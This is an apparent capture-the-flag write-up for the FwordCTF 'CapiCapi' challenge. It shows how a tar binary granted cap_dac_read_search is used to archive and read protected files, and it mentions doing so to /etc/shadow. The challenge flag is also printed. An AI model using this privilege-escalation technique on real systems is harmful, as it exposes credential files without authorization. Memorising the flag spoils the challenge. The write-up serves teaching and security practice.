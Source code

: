 # CapiCapi - bash

when connecting to the service i tried most of the common priv esc techniques but none worked however. After being triggered for hours because it wasn't sudo -l i read the briefing again. I then googled the briefing and after quite a bit of endless googling found something called linux capabilities that could be exploited. I ended up finding this website about it:

https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

After running the check to see if this could be exploited on our system:

```
user1@d963015da1fa:/$ getcap -r / 2>/dev/null    <-- command we run  
/usr/bin/tar = cap_dac_read_search+ep <-- our response
```
this shows the same thing as the website so we know it should be able to be exploited.

We see that the binary tar has the privelages to read anything on the file system. 

We attempt the example on /etc/shadow just like in the website and then go on to do the same thing on the flag.txt file:
```
user1@d963015da1fa:/tmp$ tar -cvf flag.tar /home/user1/flag.txt
tar: Removing leading `/' from member names
/home/user1/flag.txt
user1@d963015da1fa:/tmp$ tar -xvf flag.tar
```
We then go into the /tmp/home/user1 directory and read the flag.txt file

#### Flag: FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
